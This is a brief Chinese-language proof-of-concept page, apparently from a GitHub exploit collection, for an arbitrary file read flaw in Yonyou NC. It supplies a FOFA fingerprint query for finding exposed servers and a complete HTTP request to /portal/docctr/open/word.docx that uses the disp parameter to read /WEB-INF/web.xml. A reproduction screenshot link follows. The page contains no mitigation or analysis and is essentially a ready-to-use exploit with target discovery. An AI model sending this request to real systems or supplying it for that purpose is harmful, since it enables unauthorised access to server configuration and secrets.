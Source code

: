 
## 用友NC word.docx任意文件读取漏洞

## fofa
```
body="UClient.dmg"
```

## poc
```
GET /portal/docctr/open/word.docx?disp=/WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive

```

## 漏洞复现
![0152cd5a2d208fb2e336de5ac3621ebb](https://github.com/wy876/POC/assets/139549762/05dcd3bf-a6ae-4aac-95ca-e6788e2eadb0)
